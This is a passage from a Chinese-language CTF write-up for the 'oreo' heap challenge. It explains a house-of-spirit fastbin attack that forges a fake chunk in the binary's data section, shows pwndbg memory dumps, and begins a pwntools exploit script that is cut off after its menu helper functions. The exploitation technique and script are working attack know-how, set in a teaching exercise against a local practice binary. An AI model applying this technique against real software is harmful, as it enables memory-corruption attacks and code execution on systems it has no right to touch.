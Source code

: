 4. 布置 0x0804A2A8 后面的 chunk 信息绕过检查，前面的绕过伪造已经在第一步完成。

5. 提交信息（free all chunk），fastbin 就会得到这样的一组指针：

    ```
    0x40: 0x0804A2A0->some where heap->NULL
    ```

    到这里就得到一组任意写指针了。

---

申请 0x40 个 chunk 会记录在 chunk_num ，如果以 0x0804A2A8 为 fake chunk 的 fd 指针，那么 chunk_num 刚刚好就是 fake_chunk size 位：

```
pwndbg> x /20wx 0x0804A2A0
0x804a2a0:	0x00000000	0x00000040	0x0804a2c0	0x00000000
0x804a2b0:	0x00000000	0x00000000	0x00000000	0x00000000
```

申请第 0x40 的时候溢出修改最后 4 字节的下一 chunk 地址为 0x0804A2A8 。bypass fastbin size check 。

然后利用写入 notice 信息，布置 fake_chunk 后一个 chunk 信息，bypass 相关保护，完成 house  of spirit 布置。

写入内容就是就是：从 0x0804A2A8 + 0x30 开始写入下一个 chunk header 信息即可（prev_size = 0x40 , size = 0x100 ）。

当 free all chunk 时 fake chunk 就会通过检查，成功放入到 bin 中：

```
0x40: 0x0804A2A0->some where heap->NULL
```

再次申请 chunk ，并写入函数地址，之后通过写入 notice 修改函数。

### EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context(log_level='debug',os='linux',arch='i386')
context.binary = "./oreo"
oreo = ELF("./oreo")
p = process("./oreo")
libc = ELF('./libc.so.6')


def add(descrip, name):
    p.sendline('1')
    #p.recvuntil('Rifle name: ')
    p.sendline(name)
    #p.recvuntil('Rifle description: ')
    #sleep(0.5)
    p.sendline(descrip)


def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')


def order():
    p.sendline('3')


def message(notice):
    p.sendline('4')
    #p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)
```